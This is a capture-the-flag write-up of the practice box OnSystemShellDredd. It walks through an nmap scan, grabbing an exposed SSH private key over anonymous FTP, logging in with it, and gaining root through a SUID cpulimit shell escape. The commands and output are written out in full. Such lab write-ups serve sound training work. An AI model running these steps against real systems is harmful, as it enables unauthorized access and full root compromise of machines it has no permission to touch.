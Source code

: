 # PG Play - OnSystemShellDredd

#### Ip: 192.168.235.130
#### Name: OnSystemShellDredd
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ sudo nmap -p-  --min-rate 10000 192.168.235.130 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 15:07 CDT
Nmap scan report for 192.168.235.130
Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.177
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds
```

Interesting, only FTP and SSH are open on TCP ports. 

Looking at the scan results we see that FTP has anonymous access enabled. Lets start there.

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ ftp 192.168.235.130
Connected to 192.168.235.130.
220 (vsFTPd 3.0.3)
Name (192.168.235.130:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48916|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||54981|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||56908|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||45575|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |********************************************************************************|  1823        6.58 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (26.05 KiB/s)
ftp> bye
221 Goodbye.
```

Wow, looks like we have an SSH key for user hannah.

### Exploitation

Nice, we were able to use this key to get on the target:

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ chmod 600 id_rsa
                                                                                                                                                                                                                                                      
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ ssh -i id_rsa hannah@192.168.235.130 -p 61000
The authenticity of host '[192.168.235.130]:61000 ([192.168.235.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.235.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ hostname
ShellDredd
```

We can now grab the local.txt flag:

![user_flag.png](../assets/onsystemshelldredd_assets/user_flag.png)

### Privilege Escalation

Lets transfer over LinPEAS to help with enumerating a privilege escalation vector:

![transfer.png](../assets/onsystemshelldredd_assets/transfer.png)

LinPeas finds a couple of programs with the SUID bit set we may be able to use to escalate privlieges:

![suid.png](../assets/onsystemshelldredd_assets/suid.png)

Lets head over to https://gtfobins.github.io/gtfobins/cpulimit/ to get the command we'll need to exploit this:

![gtfo.png](../assets/onsystemshelldredd_assets/gtfo.png)

We can exploit this by running:

```text
hannah@ShellDredd:/tmp$ cd /usr/bin
hannah@ShellDredd:/usr/bin$ ./cpulimit -l 100 -f -- /bin/sh -p
Process 13092 detected
# whoami
root
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
```

And can grab the proof.txt flag:

![root_flag.png](../assets/onsystemshelldredd_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------
